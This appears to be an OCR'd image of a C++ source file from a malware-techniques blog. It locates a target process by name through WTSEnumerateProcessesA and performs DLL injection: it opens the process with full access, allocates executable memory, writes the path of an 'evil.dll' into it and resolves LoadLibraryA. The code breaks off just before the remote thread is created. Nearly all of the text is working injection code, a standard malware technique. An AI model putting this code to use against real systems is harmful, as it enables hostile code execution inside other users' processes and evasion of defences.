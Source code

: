 ```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
```